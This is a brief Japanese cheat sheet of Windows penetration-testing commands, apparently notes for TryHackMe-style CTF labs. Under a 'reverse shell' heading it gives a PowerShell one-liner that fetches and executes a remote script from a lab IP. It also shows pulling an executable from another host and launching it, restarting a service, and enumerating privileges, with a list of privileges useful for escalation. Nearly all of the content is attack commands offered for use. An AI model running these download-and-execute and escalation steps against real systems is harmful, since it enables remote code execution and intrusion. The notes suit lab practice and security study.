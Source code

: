 # Windows

### reverse shell
```
powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.180/hogehoge.ps1')"
```

### fileの発見
`dir flag* /s /p`

### スクリプト実行
`.\filename`

### fileをDL
https://binary-pulsar.hatenablog.jp/entry/2018/11/28/090000

```
bitsadmin /transfer download https://www.google.co.jp/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png %CD%\logo.png
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.27.249:8000/sheshe.exe','sheshe.exe')"
```

### powershellでプロセス実行
`powershell "Start-Process "sheshe.exe""`

### serviceのリスタート
```
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

### 現在のユーザーの権限一覧
`whoami /priv`
特権に関しては[こちら](https://www.exploit-db.com/papers/42556)参照
特権使ったTryHackMeは[これ](https://qiita.com/sanpo_shiho/items/3f2c4595f20cd4133ab8)

#### 怪しい特権
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege
